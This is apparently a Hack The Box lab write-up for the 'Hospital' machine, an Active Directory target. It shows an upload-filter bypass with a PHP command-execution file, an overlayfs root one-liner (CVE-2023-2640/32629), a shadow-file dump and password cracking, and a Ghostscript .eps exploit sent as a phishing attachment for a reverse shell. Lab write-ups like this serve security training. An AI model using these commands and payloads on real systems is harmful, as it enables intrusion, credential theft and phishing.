# Hospital

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.133.177                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-19 02:38 EST
Nmap scan report for 10.129.133.177
Host is up (0.0091s latency).
Not shown: 65507 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
53/tcp   open   domain
88/tcp   open   kerberos-sec
135/tcp  open   msrpc
139/tcp  open   netbios-ssn
389/tcp  open   ldap
443/tcp  open   https
445/tcp  open   microsoft-ds
464/tcp  open   kpasswd5
593/tcp  open   http-rpc-epmap
636/tcp  open   ldapssl
1801/tcp open   msmq
2103/tcp open   zephyr-clt
2105/tcp open   eklogin
2107/tcp open   msmq-mgmt
2179/tcp open   vmrdp
3268/tcp open   globalcatLDAP
3269/tcp open   globalcatLDAPssl
3389/tcp open   ms-wbt-server
5985/tcp open   wsman
6404/tcp open   boe-filesvr
6406/tcp open   boe-processsvr
6407/tcp open   boe-resssvr1
6409/tcp open   boe-resssvr3
6613/tcp open   unknown
6636/tcp open   mpls-udp-dtls
8080/tcp closed http-proxy
9389/tcp open   adws
```

Seems like this is an AD machine. I did a detailed scan as well as there were quite a few ports i didn't recognise. Noted that port 3389 for RDP was open.

```
$ nmap -p 88,135,139,389,443,445,464,593,636,1802,2103,2105,2107,2179,3268,3269,3389,6404,6406,6407,6409,6613,6636,8080 -sC -sV --min-rate 5000 10.129.133.177
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-19 02:40 EST
Nmap scan report for 10.129.133.177
Host is up (0.013s latency).

PORT     STATE    SERVICE           VERSION
88/tcp   open     kerberos-sec      Microsoft Windows Kerberos (server time: 2023-11-19 14:40:28Z)
135/tcp  open     msrpc             Microsoft Windows RPC
139/tcp  open     netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open     ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open     ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open     ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1802/tcp filtered concomp1
2103/tcp open     msrpc             Microsoft Windows RPC
2105/tcp open     msrpc             Microsoft Windows RPC
2107/tcp open     msrpc             Microsoft Windows RPC
2179/tcp open     vmrdp?
3268/tcp open     ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open     globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open     ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2023-09-05T18:39:34
|_Not valid after:  2024-03-06T18:39:34
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2023-11-19T14:41:16+00:00
6404/tcp open     msrpc             Microsoft Windows RPC
6406/tcp open     ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open     msrpc             Microsoft Windows RPC
6409/tcp open     msrpc             Microsoft Windows RPC
6613/tcp open     msrpc             Microsoft Windows RPC
6636/tcp open     msrpc             Microsoft Windows RPC
8080/tcp open     http              Apache httpd 2.4.55 ((Ubuntu))
|_http-server-header: Apache/2.4.55 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Login
|_Requested resource was login.php
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Lots of output, but basically the domain is `hospital.htb` and `DC.hospital.htb`, which I added to the `/etc/hosts` file.

## Web Enum -> PHP File Execution

Port 443 just shows a Webmail login, of which I had no credentials yet:



Default credentials don't work, so I moved on. Port 8080 shows another service with a login, but this time I could make an account:



Based on the background, it looks like a management service for a health provider (hence the box name). It also ran on PHP.

After logging in, there is just a file upload feature:


Based on the fact that this runs on PHP, I tried to upload a PHP webshell using various methods. The upload feature only accepts image files by default.

First, I did a `gobuster` scan to find where the files went:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://hospital.htb:8080 -t 50  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hospital.htb:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 321] [-> http://hospital.htb:8080/uploads/]
/css                  (Status: 301) [Size: 317] [-> http://hospital.htb:8080/css/]
/js                   (Status: 301) [Size: 316] [-> http://hospital.htb:8080/js/]
```

So it is in the `uploads` directory. Doing some basic null byte injection followed by changing the extension to `.phar` seems to work, as it redirects me to `success.php`:



I actually forgot this was a Windows machine and tried to upload the basic PHP reverse shell, which resulted in this error:



At least I know that `.phar` execution works, allowing me to upload a file to execute `phpinfo` to find the functions that might be banned:

```php
<?php
phpinfo();
?>
```



Interestingly, the web server is running on a Linux instance despite the machine being labelled as Windows.



When checking all the functions, it seems that `popen` and `fread` are not disabled, allowing me to upload this:

```php
<?php
echo fread(popen("/bin/ls /", "r"), 4096);
?>
```

The above allows some basic form of commands to be run:



Using this, I replaced the shell with a basic `rm mkfifo` shell and it worked!



## To Windows

### Basic Enum -> Ubuntu Escalation

I found some credentials for an SQL service within some configuration files:

```
www-data@webserver:/var/www/html$ ls
config.php  fonts      js          register.php  uploads
css         images     login.php   success.php   vendor
failed.php  index.php  logout.php  upload.php

www-data@webserver:/var/www/html$ cat config.php 
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

There was also another user present:

```
www-data@webserver:/home$ ls -la
total 12
drwxr-xr-x  3 root       root       4096 Oct 29 02:02 .
drwxr-xr-x 19 root       root       4096 Sep 12 17:23 ..
drwxr-x---  5 drwilliams drwilliams 4096 Oct 29 01:42 drwilliams
```

Since this was an AD machine, this user might be present on the DC. When checking `uname -a`, I found that this machine was running an Ubuntu instance vulnerable to CVE-2023-2640 & CVE-2023-32629:

```
www-data@webserver:/home$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

www-data@webserver:/home$ cat /etc/lsb-release 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=23.04
DISTRIB_CODENAME=lunar
DISTRIB_DESCRIPTION="Ubuntu 23.04"
```
This PoC was similar to another machine on HTB, and to become `root`, just run these two commands in a writeable directory:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```



Replace `id` with `/bin/bash -i` to get a `root` shell:



### Shadow Hash -> Webmail Login

As `root`, I could read the `/etc/shadow` file:

```
root@webserver:/# cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::
```

To crack this, I used `unshadow`:

```
$ cat shadw_hash
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::

$ cat passwd_user
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash

$ unshadow passwd_user shadw_hash > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (drwilliams)     
1g 0:00:00:52 DONE (2023-11-19 03:31) 0.01906g/s 4084p/s 4084c/s 4084C/s raycharles..pucci
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```



I tried to login as `drwilliams@hospital.htb` on the webmail instance on port 443, and it worked.



There was one email, and it contained this:


```
Dear Lucy,

I wanted to remind you that the project for lighter, cheaper and
environmentally friendly needles is still ongoing 💉. You are the one in
charge of providing me with the designs for these so that I can take
them to the 3D printing department and start producing them right away.
Please make the design in an ".eps" file format so that it can be well
visualized with GhostScript.

Best regards,
Chris Brown.
😃
```



`.eps` and GhostScript signifies that I might have to send a phishing email to gain RCE as another user.

Searching for 'Ghostscript exploit' returns this as the first result:



Since we already accessed the Linux part, I assumed that now was time for the Windows portion, hence I used a `powershell` reverse shell:

Firstly, generate the `file.eps` payload:

```
$ python3 CVE_2023_36664_exploit.py --inject --payload "<used powershll #3 base64 from revshells.com>" --filename file.eps
[+] Payload successfully injected into file.eps.
```

Then, construct an email to `drbrown` with the file as an attachment:



After sending, I immediately got a shell as `drbrown`:



## Privilege Escalation

### RDP Privileges -> Admin Creds

The user was part of numerous remote management groups:

```
PS C:\Users\drbrown.HOSPITAL\Documents> net user drbrown
User name                    drbrown
Full Name                    Chris Brown
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/6/2023 6:53:27 AM
Password expires             Never
Password changeable          9/6/2023 6:53:27 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   11/19/2023 7:54:40 AM

Logon hours allowed          All

Local Group Memberships      *Performance Log Users*Remote Desktop Users 
                             *Remote Management Use*Users                
Global Group memberships     *Domain Users         
The command completed successfully.
```

At the start, I took note that RDP was open, and this user happaned to have RDP privileges. It's highly probable that the creator did this on purpose.

In the directory the shell was spawned in, there was a `.bat` file that contained credentials:

```
PS C:\Users\drbrown.HOSPITAL\documents> dir


    Directory: C:\Users\drbrown.HOSPITAL\documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/23/2023   3:33 PM            373 ghostscript.bat                                                       


PS C:\Users\drbrown.HOSPITAL\documents> type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
```

Using this, I could RDP in as the user, which showed the login page for the Webmail instance.



There's a program running to execute the login of the Administrator, and it periodically types in the password.  While it was typing I could view its contents by clicking on the 'view password' button, which I took a picture of using my phone:



Using this, I could `evil-winrm` in as the administrator:



Rooted!